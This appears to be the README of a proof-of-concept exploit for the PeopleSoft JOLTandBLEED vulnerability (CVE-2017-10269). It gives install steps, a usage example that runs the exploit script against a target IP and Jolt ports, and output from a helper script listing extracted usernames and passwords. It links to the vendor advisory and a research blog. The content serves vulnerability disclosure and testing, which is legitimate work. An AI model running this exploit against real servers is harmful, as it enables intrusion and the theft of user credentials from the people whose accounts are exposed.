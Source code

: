 # Install
```
$ pip install --user hexdump
```
# WARNING
Don't test on productuion servers.

# Info
Tested only on \*nix systems. 
```
$ psreleaseinfo
ToolsRelease: 8.55
ToolsReleaseDB: 8.55
```

# Usage example
```
$ python jolt_and_bleed_poc.py -s 192.168.56.101 -d out.bin -p 9034 9035 9036 9037 9038
...
...
Done

$ python extractCreds.py out.bin
RCLAYBURN:aeM9CuaXatohr1aixe9pohx4u
SADAMS:Ohl0ac4Gaasilae4Nouzoheeh
AJORDAN:peeW1bevoh7eitah1aucheegh
DMANAGER:ohquaix6aipoa6Euy7shu5moH
```
# Links
[Oracle Security Alert Advisory - CVE-2017-10269](http://www.oracle.com/technetwork/security-advisory/alert-cve-2017-10269-4021872.html)

[PeopleSoft JOLTandBLEED Vulnerability](https://erpscan.com/press-center/blog/peoplesoft-joltandbleed/)


